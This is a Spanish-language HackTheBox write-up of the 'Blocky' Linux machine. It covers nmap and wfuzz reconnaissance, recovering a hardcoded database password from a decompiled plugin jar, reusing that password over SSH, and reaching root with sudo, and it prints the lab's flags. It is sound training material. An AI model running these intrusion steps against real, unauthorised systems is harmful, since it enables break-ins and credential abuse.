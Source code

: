 ```yaml
---
title: Blocky | Linux
published: 2025-09-16
image: "./logo.png"
tags: [Easy, Linux, Wordpress Enumeration, Information Leakage, Analyzing a jar file, Abusing Sudoers Privilege, eJPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- WordPress Enumeration
- Information Leakage
- Analyzing a jar file - JD-Gui + SSH Access
- Abusing Sudoers Privilege [Privilege Escalation]

### Preparación

- eJPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.37`      | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p21,22,80,25565 10.10.10.37 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.37`      | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

### Whatweb

Vamos a ver que tecnologías está usando en el puerto `80`, deberemos de añadir el dominio `blocky.htb` a `/etc/hosts` para que funcione:

```bash wrap=false
❯ whatweb http://blocky.htb
http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]
```

### Wfuzz

Antes de hacer un escaneo con `wpscan` o una herramienta similar, voy a hacer un poco de **fuzzing**:

```bash wrap=false
❯ wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt http://blocky.htb/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://blocky.htb/FUZZ
Total requests: 26583

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================

000000275:   200        10 L     51 W       380 Ch      "wiki"                     
000000291:   200        25 L     347 W      10304 Ch    "phpmyadmin"               
000000025:   200        200 L    2015 W     40838 Ch    "wp-includes"              
000000013:   200        0 L      0 W        0 Ch        "wp-content"               
000000016:   200        37 L     61 W       745 Ch      "plugins"                  
000000020:   200        69 L     199 W      2397 Ch     "wp-admin"                 
000003781:   403        11 L     32 W       298 Ch      "server-status"            
000000136:   403        11 L     32 W       296 Ch      "javascript"               

Total time: 0
Processed Requests: 26433
Filtered Requests: 26425
Requests/sec.: 0
```

Dentro de plugins podemos ver 2 archivos `.jar`:

![/plugins](./1.png)

### jd-gui

Si los descargamos y usamos la herramienta `jd-gui` podremos ver el código:

```java title="BlockyCore.class"
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  
  public String sqlUser = "root";
  
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
  
  public void onServerStart() {}
  
  public void onServerStop() {}
  
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  
  public void sendMessage(String username, String message) {}
}
```

Si probamos esas credenciales por **SSH** con `root` no podemos:

```bash wrap=false
❯ ssh root@10.10.10.37
root@10.10.10.37's password: 
Permission denied, please try again.
```

Pero si probamos el usuario `notch` que encontramos dentro de un post de la página:

```bash wrap=false
❯ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ whoami
notch
```

## Escalada de privilegios

Si vemos los `grupos` en los que estamos:

```bash wrap=false
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Estamos dentro de **sudo** y sabemos la contraseña por lo que:

```bash wrap=false
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# cat /root/root.txt 
d1ce76a4daa26a5383ee6d438152f90d
root@Blocky:/home/notch# cat user.txt 
1c4f8593f11db97b599ea46d32edd98d
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/48)

---